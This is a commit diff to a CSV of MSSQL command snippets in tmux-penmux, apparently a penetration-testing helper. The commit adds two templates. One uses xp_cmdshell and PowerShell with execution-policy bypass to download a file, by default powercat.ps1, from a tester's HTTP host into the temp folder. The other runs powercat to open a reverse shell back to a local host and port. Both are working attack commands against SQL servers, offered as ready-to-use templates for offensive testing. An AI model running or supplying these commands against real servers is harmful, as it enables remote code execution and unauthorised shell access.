

Before and after one commit to mfulz/tmux-penmux, a CSV file: modules/auxiliary/misc/snipper/snippets/databases/sql/mssql.csv, drawn as a sheet; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Improvements
- Snipper: Added $env:TEMP mssql downloads and powercat run

```diff
--- a/modules/auxiliary/misc/snipper/snippets/databases/sql/mssql.csv
+++ b/modules/auxiliary/misc/snipper/snippets/databases/sql/mssql.csv
+row 4: MsSQLExecuteCommandPsDownloadTemp | MsSQL comamnd execution via xp_cmdshell (download file via powershell to temp) | EXEC xp_cmdshell "powershell -ep bypass -nop iwr -uri ###HttpUri###§§§file§§§ -outfile $env:TEMP\§§§file§§§" | §§§file§powercat.ps1§filename to download from host§§§
+row 6: MsSQLExecutePowercatTemp | MsSQL comamnd execution via xp_cmdshell (powercat connection to host in temp) | EXEC xp_cmdshell "powershell -ep bypass -nop . $env:TEMP\powercat.ps1; powercat -c ###LocalHost### -p ###LocalPort### -ep"
```
